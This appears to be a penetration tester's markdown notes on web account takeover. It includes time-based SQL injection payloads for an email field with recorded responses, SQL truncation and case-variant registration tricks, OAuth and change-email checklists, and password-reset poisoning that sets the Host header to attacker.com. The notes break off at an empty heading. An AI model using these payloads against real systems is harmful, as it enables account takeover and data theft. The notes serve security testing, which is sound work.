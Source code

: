 ### SQL Injection
- In email field 
```python
# SQLI in Email Field 
{"email":"asd'a@a.com"} --> Not Valid 
{"email":"asd'or'1'='1@a.com" } --> valid 
{"email":"a'-IF(LENGTH(database())>9,SLEE P(7),0)or'1'='1@a.com"} --> Not Valid 
{"email":"a'-IF(LENGTH(database())>9,SLEE P(7),0)or'1'='1@a.com"} -> Valid --> Delay: 7,854 milis 
{"email":"\\"a'-IF(LENGTH(database())=10,SLEEP(7),0)or'1'='1\\"@a.com"} --> {"code":0,"status":200,"message":"Berhasil"} --> Valid --> Delay 8,696 milis 
{"email":"\\"a"-IF(LENGTH(database())=11,SLEEP(7),0)or'1'='1\\"@a.com"} ---> {"code":0,"status":200,"message":"Berhasil"} ---> Valid --> No delay 
 # Resources 
 https://dimazarno.medium.com/bypassing-email-filter-which-leads-to-sql-injection-e57bcbfc6b17
```
- Insert Statement |  Modify password of existing object/user
	To do so you should try to **create a new object named as the "master object"** (probably **admin** in case of users) modifying something:
	- Create user named: **AdMIn** (uppercase & lowercase letters)
	- Create a user named: **admin=**
	- **SQL Truncation Attack** (when ere is some kind of **length limit** in the username or email) --> Create user with name: **admin [a lot of spaces] a**
### OAUTH Takeovers
[[OAUTH to ATO]]
- [ ] Test r`edirect_uri` for  [[Open Redirect]] and [[Web-App Security/XSS|XSS]]
- [ ] Test the existence of response_type=token
- [ ] Missing state parameter? -> CSRF
- [ ] Predictable state parameter?
- [ ] Is state parameter being verified?
### SAML Vulnerabilities
[SAML Attacks - HackTricks](https://book.hacktricks.xyz/pentesting-web/saml-attacks)
## Change email Feature
- [ ] Try to change email to Registered email
- [ ] Try to change email to unregistered email but try to handle Reset Password to Get Pre-ATO
## More Checks
- [ ] Check if you can use **disposable emails**
- [ ]  **Long** **password** (>200) leads to **DoS**
- [ ]  **Check rate limits on account creation**
- [ ]  Use username@**burp_collab**.net and analyze the **callback**

## **Password Reset Takeover**
##### Password Reset Token Leak Via Referrer
1.  Request password reset to your email address
2. Click on the password reset link
3. Don’t change password
4. Click any 3rd party websites(eg: Facebook, twitter) 
5. Intercept the request in Burp Suite proxy
6. Check if the referrer header is leaking password reset token.
##### Password Reset Poisoning
[[Host Header Injection]]
1. Intercept the password reset request in Burp Suite
2. Add or edit the following headers in Burp Suite : `Host: attacker.com`, `X-Forwarded-Host: attacker.com`
3. Forward the request with the modified header `http POST https://example.com/reset.php HTTP/1.1 Accept: */* Content-Type: application/json Host: attacker.com`
4. Look for a password reset URL based on the _host header_ like : `https://attacker.com/reset-password.php?token=TOKEN`
##### Weak Password Reset Token